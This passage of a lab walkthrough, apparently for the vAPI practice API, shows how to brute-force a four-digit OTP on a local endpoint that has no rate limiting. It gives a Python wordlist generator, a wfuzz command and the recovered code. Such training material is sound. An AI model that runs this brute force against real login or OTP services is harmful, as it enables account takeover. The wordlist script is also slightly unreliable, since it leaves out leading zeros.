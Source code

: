 ![api4_burp_verify_otp](api4_burp_verify_otp.png)
-   A 403 Forbidden response was returned, meaning the OTP provided is invalid.
-   There is no rate limiting on the response.


#### Step 4.
Since there is no rate limiting, it's time to brute-force the OTP. The OTP is four digits (from the request "otp":"9999"), meaning the OTP will be between 0000 and 9999.

- Let's create a wordlist of numbers containing all numbers from 0000-9999 using python. 
```python
numbers = list(range(0000,10000))

with open('numbers.txt', 'w') as f:
	for num in numbers:
		f.write(str(num) + '\n')
```

- After having a wordlist, we will use wfuzz to brute-force the OTP. (There are a variety of different other tools for brute-forcing like ffuf and Intruder). The reason we are using wfuzz and not Burp Intruder is that wfuzz is faster than Intruder in Burp community edition.

The wfuzz command is 
``` 
wfuzz -d '{"otp":"FUZZ"}' -H 'Content-Type:application/json' -z file,numbers.txt -u http://127.0.0.1/vapi/api4/otp/verify --hc 403
```
 - In the above command, please change `numbers.txt` to the name of your wordlist, unless you used the above python script.
 - change the URL (http://127.0.0.1) to yours.
 
![api4_wfuzz](api4_wfuzz.png)
From the above result
- The `OTP` is `1872`
